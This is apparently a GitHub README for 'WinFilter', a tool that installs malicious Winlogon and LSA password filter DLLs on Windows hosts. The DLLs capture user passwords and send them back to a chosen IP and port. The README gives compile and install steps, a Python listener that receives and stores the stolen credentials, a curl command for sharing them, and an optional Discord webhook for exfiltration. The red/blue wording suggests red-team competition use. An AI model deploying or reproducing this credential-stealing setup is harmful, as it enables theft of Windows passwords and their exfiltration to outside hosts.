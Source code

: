 # WinFilter
Winlogon and LSA Notification Password Filters 

## Reference
The primary code for each of the filters were pulled from:
- https://github.com/gtworek/PSBits/tree/master/PasswordStealing
- https://github.com/3gstudent/PasswordFilter

## Usage
### Filters
For each of the DLLs, they must be compiled with the desired IP address and port at the top of the file using Visual Studio.

Modify and utilize each of the install scripts in order to set up the filters. 

`sed -i 's/password/your_dll_name/g' install_script`

Make sure to change the IP and Port that the filters will call back to in the install script.

### Credentials Receiver
To receive creds and set up the server, run:

`python3 winfilter.py`

By default, the IP will be '0.0.0.0' and the port will be '80'. You can give a specific ip or port using `--ip <ip_addr>` or `--port <port_num>`.

Screenshot Example:
```python3 winfilter.py --port 6006```

![photo](photos/photo.png)

Credentials will also be written to a file in the `creds` directory. Use the `--clean` option to clear out the directory.

### Sharing Creds
Credentials are written to the `creds` directory. Start a Python HTTP server in this directory, and have other use the command below.

`curl <red_ip>:8000/<blue_ip>`

Discord Webhook functionality is also available. Uncomment the `discordWH` function call in the `winfilter.py` file and modify the url variable.